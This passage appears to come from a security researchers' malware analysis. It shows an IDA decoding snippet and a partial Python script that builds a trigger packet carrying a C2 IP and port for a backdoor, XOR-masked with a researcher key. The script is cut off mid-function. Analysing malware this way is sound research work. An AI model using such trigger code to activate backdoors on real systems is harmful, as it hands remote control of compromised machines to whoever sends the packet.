 ```
        if 'push' in idc.generate_disasm_line(prev2Head,1) and idc.get_operand_type(prev2Head,0)==5:
            leng=idc.get_operand_value(prev2Head,0)
            decode(bufaddr,leng)


```

0x02 GenTrigger
---------------

```
import random
import socket


def crc16(data: bytearray, offset, length):
  if data is None or offset < 0 or offset > len(data) - 1 and offset + length > len(data):
    return 0
  crc = 0xFFFF
  for i in range(0, length):
    crc ^= data[offset + i] << 8
    for j in range(0, 8):
      if (crc & 0x8000) > 0:
        crc = (crc << 1) ^ 0x1021
      else:
        crc = crc << 1
  return crc & 0xFFFF

def Gen_payload(ip:str,port:int):
    out=bytearray()
    part1=random.randbytes(92)
    sum=crc16(part1,8,84)
  
    offset1=sum % 0xc8
    offset2=sum % 0x37
    padding1=random.randbytes(offset1)
    padding2=random.randbytes(8)
    
    
    host=socket.inet_aton(ip)
    C2=bytearray(b'\x01')
    C2+=host
    C2+=int.to_bytes(port,2,byteorder="big")
    key=b'NetlabPatched,Enjoy!'
    C2 = C2+key +b'\x00\x00'
    c2sum=crc16(C2,0,29)
    C2=C2[:-2]
    C2+=(int.to_bytes(c2sum,2,byteorder="big"))

    flag=0x7f*10
    out+=part1
    out+=padding1
    out+=(int.to_bytes(sum,2,byteorder="big"))
    out+=(int.to_bytes(flag,2,byteorder="big"))
    out+=padding2

    tmp=bytearray()
    for i in range(29):
      tmp.append(C2[i] ^ out[offset2+8+i])
    out+=tmp

    leng=472-len(out)
    lengpadding=random.randbytes(random.randint(0,leng+1))
```
